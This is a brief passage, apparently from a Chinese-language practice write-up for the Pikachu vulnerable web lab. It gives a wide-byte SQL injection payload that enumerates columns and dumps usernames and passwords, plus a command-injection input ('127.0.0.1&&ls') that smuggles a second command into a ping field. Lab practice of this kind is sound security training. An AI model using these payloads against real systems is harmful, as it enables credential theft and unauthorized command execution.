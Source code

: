 ```
-1%df' union select 1,group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'#
```

获取隐私字段信息：

```
-1%df'union select group_concat(username),group_concat(password) from users#
```

![image-20250123074931006](../../_media/image-20250123074931006.png)



## RCE

### exec "ping"

```
127.0.0.1&&ls
```

![image-20250112185455937](../../_media/image-20250112185455937.png)

